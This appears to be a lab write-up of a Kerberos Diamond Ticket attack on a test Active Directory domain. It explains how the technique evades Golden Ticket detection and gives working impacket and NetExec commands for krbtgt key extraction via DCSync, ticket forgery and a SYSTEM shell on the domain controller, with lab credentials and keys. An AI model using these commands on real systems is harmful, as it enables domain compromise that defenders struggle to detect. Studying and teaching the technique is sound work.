




Diamond Ticket Attack
Objective: To forge a highly stealthy, persistent Ticket Granting Ticket (TGT) that grants administrative access while blending in with normal Active Directory network traffic.
Concept: A Golden Ticket is forged entirely offline, meaning no standard AS-REQ (Authentication Service Request) is sent to the Domain Controller. Advanced Blue Teams can detect Golden Tickets by looking for TGTs being used without a preceding AS-REQ log (Event 4768). A Diamond Ticket bypasses this detection. The attacker first requests a legitimate TGT from the KDC using a valid account. They then capture this legitimate ticket, decrypt it using the stolen krbtgt key, modify the internal Privilege Attribute Certificate (PAC) to include Domain Admin rights, and re-encrypt it. The result is a forged ticket that has a legitimate request logged in the KDC, making it exceptionally difficult to detect.
To forge a Diamond Ticket, we need a valid user account, the domain SID, and the encryption keys for the krbtgt account.
Step 1: Extracting the krbtgt Keys
Tool: impacket-secretsdump
Command:
impacket-secretsdump shinobi.local/madara_uchiha91:Rinnegan@War@192.168.56.10 -just-dc-user krbtgt -outputfile krbtgt_hash
Findings: Using compromised credentials (madara_uchiha91), we executed a targeted DCSync to extract only the KDC service account secrets. We successfully obtained both the NTLM hash and the AES-256 key (297d8e7974352d17756e706cf95ee68267732ff07bc877a422102da0f2aee939), which is critical for forging modern, AES-encrypted tickets.

Step 2: Enumerating the Domain SID
Tool: NetExec (nxc)
Command:
nxc ldap 192.168.56.10 -u madara_uchiha91 -p 'Rinnegan@War' --get-sid
Findings: We queried LDAP and confirmed the Domain SID is S-1-5-21-4057973084-1432748986-1156288224.

Objective: Request a valid TGT for the standard user naruto_uzumaki07, crack it open with the krbtgt keys, inject high-privileged group SIDs into the PAC, and repackage it.
Step 1: Requesting and Modifying the Ticket
Tool: impacket-ticketer
Command:
impacket-ticketer -request -domain 'shinobi.local' -user 'naruto_uzumaki07' -password 'Konoha@123' -nthash '0ae14ac4a8c66ca241ba7f25162a9ea2' -aesKey '297d8e7974352d17756e706cf95ee68267732ff07bc877a422102da0f2aee939' -domain-sid 'S-1-5-21-4057973084-1432748986-1156288224' naruto_uzumaki07
Findings: * Crucially, the -request flag was used. This tells the tool to interact with the KDC to get a real TGT first, satisfying the AS-REQ requirement.
krbtgt keys, saving the highly privileged payload as naruto_uzumaki07.ccache.
Objective: Prove that the forged Diamond Ticket grants complete administrative access to the Domain Controller while bypassing standard credential checks.
Step 1: Injecting the Payload
Command:
export KRB5CCNAME=naruto_uzumaki07.ccache
Findings: The environment variable was updated, allowing Impacket tools to utilize the Diamond Ticket directly from memory.
Step 2: Execution via smbexec
Tool: impacket-smbexec
Command:
impacket-smbexec -k -no-pass shinobi.local/naruto_uzumaki07@dc01.shinobi.local
Findings: By leveraging the forged Kerberos ticket, we successfully authenticated to DC01 without providing a password. The execution spawned a semi-interactive shell.
whoami confirmed we had achieved nt authority\system privileges on the Domain Controller, validating the success of the Diamond Ticket forgery.